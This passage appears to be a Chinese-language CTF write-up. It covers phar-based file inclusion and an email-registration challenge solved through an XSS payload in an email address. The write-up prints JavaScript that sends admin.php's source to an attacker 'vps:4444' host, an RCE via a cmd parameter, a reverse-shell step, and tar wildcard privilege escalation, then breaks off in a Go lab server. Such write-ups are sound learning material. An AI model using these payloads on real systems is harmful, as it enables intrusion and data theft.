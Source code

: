 然后上传，md5一下文件名+IP，phar协议文件包含读flag就ok了

***

### 有趣的邮箱注册

这道题的提权部分还帮了我大忙，我把它的通配符提权拿出来写了个http server用在周五的讲课上了

进入题目知道是`ssrf`，需要绕过邮箱的验证：

`"[xss payload]"@null.com`

然后读源码：

```javascript
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps:4444/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("GET","admin.php",true);
xmlhttp.send();
```

发现是个RCE：

`href="admin/a0a.php?cmd=whoami"`

然后反弹一个shell到VPS：

```bash
echo [payload base64] | base64 -d > /tmp/shell.sh
?cmd=/bin/bash /tmp/shell.sh
```

接着会发现根目录下的flag文件权限为`400`，所有者为flag，接着能够在web目录发现一个目录，里面有一个文件上传，且有tar的备份，利用tar指令的`--checkpoint-action`参数结合通配符完成提权

***

Linux通配符 + tar指令提权复现靶机环境地址：`https://github.com/EddieIvan01/Tar-Vuln-server`

Server代码：

```go
package main

import (
	"io"
	"io/ioutil"
	"log"
	"os"
	"os/exec"

	"github.com/gin-gonic/gin"
)

func index_get(ctx *gin.Context) {
	cmd := exec.Command("ls")
	result, _ := cmd.Output()
	ctx.HTML(200, "index.html", string(result))
}

func index_post(ctx *gin.Context) {
	file, _ := ctx.FormFile("file")
	file_content, _ := file.Open()
	defer file_content.Close()
	filename := file.Filename
```